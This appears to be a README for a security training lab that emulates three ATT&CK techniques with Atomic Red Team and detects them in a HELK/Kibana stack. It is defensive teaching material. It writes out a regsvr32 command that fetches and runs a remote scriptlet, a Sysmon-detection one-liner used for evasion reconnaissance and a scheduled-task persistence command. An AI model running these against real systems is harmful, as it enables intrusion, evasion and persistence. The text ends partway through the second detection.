<div align="center">


# ⚡ Attack Emulation & Detection on ELK Stack
### HELK Platform • Atomic Red Team • Winlogbeat • Kibana Discover

[](https://github.com/Cyb3rWard0g/HELK)
[](https://attack.mitre.org/)
[](.)
[](.)

**A full-stack adversary emulation lab — simulate real APT attacks with Atomic Red Team and detect every technique in HELK's Kibana dashboard.**

</div>

---

## 📋 Table of Contents

1. [Lab Overview](#1-lab-overview)
2. [HELK Architecture Deep Dive](#2-helk-architecture-deep-dive)
3. [Environment Setup](#3-environment-setup)
4. [Task 1-4: Infrastructure Verification & Configuration](#4-tasks-1-4-infrastructure-verification--configuration)
5. [Task 5: Attack Emulation — Three ATT&CK Techniques](#5-task-5-attack-emulation--three-attck-techniques)
6. [Task 6: Detection in Kibana Dashboard](#6-task-6-detection-in-kibana-dashboard)
7. [MITRE ATT&CK Analysis](#7-mitre-attck-analysis)
8. [Sigma Detection Rules](#8-sigma-detection-rules)
9. [Key Findings & Forensic Notes](#9-key-findings--forensic-notes)

---

## 1. Lab Overview

### About This Lab

**Attack Emulation and Detection on ELK** is an advanced threat hunting lab that teaches the complete red-to-blue pipeline: how to **simulate real adversary techniques** using the industry-standard **Atomic Red Team** framework, ship those events through a **HELK (Hunting ELK)** data pipeline, and **detect every single attack** using Kibana's Discover interface.

| Field | Details |
| :--- | :--- |
| **Lab Platform** | INE Security — Defender Labs |
| **Difficulty** | 🔴 Advanced |
| **Duration** | 30 minutes |
| **Environment** | 3-Machine Lab: Kali Linux • Windows Target • Ubuntu SOC (HELK) |
| **Primary Dataset** | Windows Event Logs + Sysmon, shipped via Winlogbeat → Kafka → Elasticsearch |
| **MITRE Techniques** | T1218.010, T1518.001, T1053.005 |

### Lab Objectives

| # | Task | Description |
| :---: | :--- | :--- |
| 1 | Verify Lab Environment | Confirm all machines and services are accessible |
| 2 | Explore HELK Platform | Understand the 5-component ELK threat hunting stack |
| 3 | Configure Winlogbeat | Update HELK IP in YAML config and install as Windows service |
| 4 | Start Winlogbeat Service | Activate log shipping from Windows target to Kafka |
| 5 | Execute Atomic Red Team | Run 3 MITRE ATT&CK-mapped attack simulations |
| 6 | Detect in Kibana | Hunt and correlate all 3 attacks in Kibana Discover |

---

## 2. HELK Architecture Deep Dive

### What is HELK?

**The Hunting ELK (HELK)** is one of the first open-source threat hunting platforms with advanced analytics. Developed by Roberto Rodriguez ([@Cyb3rWard0g](https://github.com/Cyb3rWard0g)), HELK extends the standard ELK Stack with:

- **Apache Kafka** for high-throughput event streaming
- **Apache Spark** for distributed data analytics
- **Jupyter Notebooks** for threat research workflows
- **GraphFrames** for relationship mapping across events

### HELK Pipeline Architecture



```mermaid

flowchart LR
    A["🎯 Windows Target\nAtomic Red Team\nSysmon + WinEvt"] 
    B["📤 Winlogbeat\nLog Shipper\nPort config"]
    C["⚡ Kafka Broker\nEvent Streaming\nPort 9092"]
    D["🔍 Elasticsearch\nLucene Engine\nPort 9200"]
    E["📊 Kibana\nDashboard UI\nPort 5601"]
    F["🛡️ SOC Analyst\nKibana Discover\nThreat Hunt"]

    A -->|"Events via\nWinlogbeat"| B
    B -->|"ships to\n:9092"| C
    C -->|"indexes to\n:9200"| D
    D -->|"visualized in\n:5601"| E
    E -->|"investigated by"| F

    style A fill:#1e0a0a,stroke:#ef4444,color:#fff
    style B fill:#1a0e00,stroke:#f97316,color:#fff
    style C fill:#1a1400,stroke:#eab308,color:#fff
    style D fill:#001a1a,stroke:#06b6d4,color:#fff
    style E fill:#000d1a,stroke:#3b82f6,color:#fff
    style F fill:#0a1a0a,stroke:#22c55e,color:#fff
```

### Technology Stack Reference

| Component | Role | Port | Credentials |
| :--- | :--- | :---: | :--- |
| **Elasticsearch** | Full-text search engine & document store (Lucene) | `9200` | N/A (internal) |
| **Logstash** | Data ingestion, enrichment & transformation pipeline | `5044` | N/A |
| **Kibana** | Web-based visualization & analytics dashboard | `5601` | `helk` / `hunting` |
| **Apache Kafka** | Distributed event streaming broker | `9092` | N/A |
| **Winlogbeat** | Lightweight Windows event log shipper | Agent | Configured in YAML |

---

## 3. Environment Setup

### Lab Architecture

```
┌─────────────────────────────────────────────────────────┐
│                    LAB ENVIRONMENT                      │
├──────────────────┬──────────────────┬───────────────────┤
│  Kali Linux      │  Windows Target  │  Ubuntu SOC       │
│  (Attack Machine)│  (Victim)        │  (HELK Platform)  │
├──────────────────┼──────────────────┼───────────────────┤
│ • Atomic RT CLI  │ • Sysmon         │ • Elasticsearch   │
│ • Invoke-Atomic  │ • Winlogbeat     │ • Logstash        │
│ • PowerShell     │ • AtomicRedTeam/ │ • Kibana          │
│ • RDP access     │ • C:\AtomicRed.. │ • Apache Kafka    │
│                  │ • Windows Events │ • Jupyter NB      │
└──────────────────┴──────────────────┴───────────────────┘
                            IP: 10.0.21.29 (SOC/HELK)
```

### Step 1: Access Lab Environment


Open the lab link to access the three-machine environment. You will work across:
- **Windows Machine** — to run Atomic Red Team attack simulations
- **Ubuntu SOC Machine** — running the HELK stack, accessed via Firefox

### Step 2: Explore HELK Platform



The HELK platform diagram shows the complete pipeline from Windows log generation to Kibana visualization. Note the HELK IP address displayed — this is the value you will need to configure in `winlogbeat.yml`.

---

## 4. Tasks 1-4: Infrastructure Verification & Configuration

### Task 1 & 2: Verify Lab Environment

**Task 1** — Connect to the Windows machine via RDP and verify the `C:\AtomicRedTeam` directory exists.

**Task 2** — Access the HELK Ubuntu SOC machine. The HELK services should be running and accessible.



> **Note:** In this lab, attacks are run from the Windows machine itself using the pre-installed Atomic Red Team framework. The Kali machine provides an alternative RDP/SSH access method.

### Task 3: Check HELK Services on SOC Machine



On the Ubuntu SOC Machine, verify all HELK services are operational. The key services are:
- **Elasticsearch** on port `9200`
- **Kibana** on port `5601`  
- **Kafka** on port `9092`

**Note the HELK IP address** (shown as `10.0.21.29` in this lab instance). This IP is needed for configuring Winlogbeat.

### Task 4: Configure Winlogbeat

Switch to the **Windows Machine** and open the Winlogbeat configuration file:

```
C:\Users\Administrator\Desktop\Tools\winlogbeat\winlogbeat.yml
```

**Edit the Kafka output section:**

```yaml
# BEFORE (placeholder):
output.kafka:
  hosts: ["<HELK-IP>:9092"]

# AFTER (updated with actual HELK IP):
output.kafka:
  hosts: ["10.0.21.29:9092"]
```



Save the file and run the installation commands in an **elevated PowerShell** session:

```powershell
powershell -ep bypass
cd C:\Users\Administrator\Desktop\Tools\winlogbeat

# Install Winlogbeat as a Windows service
.\install-service-winlogbeat.ps1

# Start the service
Start-Service -Name winlogbeat

# Verify it's running
Get-Service -Name winlogbeat
```



| Status | Expected Output |
| :--- | :--- |
| `Status` | `Running` |
| `Name` | `winlogbeat` |
| `StartType` | `Automatic` |

> ⚠️ **Important:** Once Winlogbeat starts, the RDP session **may disconnect**. This is normal — click **Reconnect** to rejoin the Windows session.

**At this point, all Windows Event Logs and Sysmon events are now streaming in real-time to HELK's Kafka broker.**

---

## 5. Task 5: Attack Emulation — Three ATT&CK Techniques

### What is Atomic Red Team?

**Atomic Red Team** is Red Canary's open-source library of small, portable, reproducible attack tests mapped 1:1 to MITRE ATT&CK techniques. Each "atomic test" executes a specific adversary behavior and can be invoked with a single PowerShell command.

### Load the Invoke-AtomicRedTeam Module

Open an elevated PowerShell window on the Windows Machine:

```powershell
Import-Module "C:\AtomicRedTeam\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force
```



### Attack 1: T1218.010-1 — Signed Binary Proxy Execution: Regsvr32

#### Technique Background

**MITRE T1218.010** covers the abuse of `regsvr32.exe`, a legitimate Windows utility for registering COM DLLs. Attackers abuse it to:
- Execute remote scriptlets (`.sct` files) via HTTP/HTTPS
- Bypass **AppLocker** application whitelisting (allow-listed by default)
- Achieve **fileless execution** — payload never touches disk
- Evade many signature-based AV/EDR sensors

This is a classic **LOLBAS (Living Off the Land Binaries and Scripts)** technique.

#### Execution

First, review the attack details:

```powershell
Invoke-AtomicTest T1218.010-1 -ShowDetailsBrief
```



Check prerequisites:

```powershell
Invoke-AtomicTest T1218.010-1 -CheckPrereqs
```



Execute the attack:

```powershell
Invoke-AtomicTest T1218.010-1
```



**What happened:** `regsvr32.exe` fetched and executed a remote scriptlet that launched `calc.exe`. In a real attack, this would be an arbitrary malicious payload — a reverse shell, credential harvester, or ransomware dropper.

**Attack chain:**
```
regsvr32.exe /s /u /i:<URL> scrobj.dll
   └──▶ scrobj.dll (Script Component Runtime)
         └──▶ Executes remote .sct scriptlet
               └──▶ Spawns calc.exe (or malicious payload)
```

---

### Attack 2: T1518.001-5 — Security Software Discovery

#### Technique Background

**MITRE T1518.001** covers adversary enumeration of installed security software. Before deploying evasive payloads, sophisticated APT actors perform **pre-evasion reconnaissance** to identify:
- AV/EDR solutions (Defender, CrowdStrike, Carbon Black)
- SIEM agents (Splunk, Elastic, Wazuh)
- Monitoring utilities like **Sysmon**

This specific test uses `fltmc.exe | findstr 385201` — altitude `385201` is the registered filter driver altitude for **Sysmon**. This lets attackers detect Sysmon even if the service name has been renamed for stealth.

#### Execution

```powershell
Invoke-AtomicTest T1518.001-5
```



**What happened:** The command `fltmc.exe | findstr.exe 385201` was executed, successfully discovering the Sysmon filter driver by its altitude — even if the service name had been changed. This is a **signature-resistant** detection bypass technique.

---

### Attack 3: T1053.005-2 — Scheduled Task Persistence

#### Technique Background

**MITRE T1053.005** covers the abuse of the Windows Task Scheduler for persistence and execution. Attackers create scheduled tasks to:
- Execute payloads on system reboot (survivability)
- Run at specific times to evade live monitoring
- Execute under the context of any user account

#### Execution

```powershell
Invoke-AtomicTest T1053.005-2
```



Verify the created task in Task Scheduler:



**What happened:** A scheduled task named `spawn` was created to run `cmd.exe` at `20:10`. The exact SCHTASKS command logged:

```cmd
SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10
```

**All three Atomic Red Team tests completed successfully.** Every event was captured by Sysmon and shipped via Winlogbeat → Kafka → Elasticsearch to HELK.

---

## 6. Task 6: Detection in Kibana Dashboard

### Accessing Kibana

Switch to the **Ubuntu SOC Machine** and open Firefox:

```
URL: https://localhost
Username: helk
Password: hunting
```

> **Note:** Accept the self-signed certificate warning before logging in.



After login, navigate to **Kibana → Discover** to begin hunting.

---

### 🔴 Detection 1: T1218.010 — Regsvr32 Proxy Execution

**Hunt query:** Search for `Invoke-Process` in Kibana Discover.



**Expand the matching event log:**



**Navigate to the `payload` field:**



#### Key Forensic Evidence

| Field | Value |
| :--- | :--- |
| `event.type` | `process_creation` |
| `process.name` | `regsvr32.exe` |
| `process.args` | `/s /u /i:<URL> scrobj.dll` |
| `payload` | Full scriptlet source code visible |
| `parent.process.name` | `powershell.exe` (Invoke-AtomicTest) |
| **MITRE Technique** | **T1218.010 — Signed Binary Proxy Execution** |

> 🔍 **Analyst Note:** The `payload` field contains the **full scriptlet content**, providing complete forensic visibility into the attacker's code. This is the value of Sysmon's rich telemetry — standard Windows event logs would only show the process name, not the payload.

---

### 🟡 Detection 2: T1518.001 — Security Software Discovery

**Hunt query:** Search for `sysmon` in Kibana Discover.



**Expand the matching log entry:**

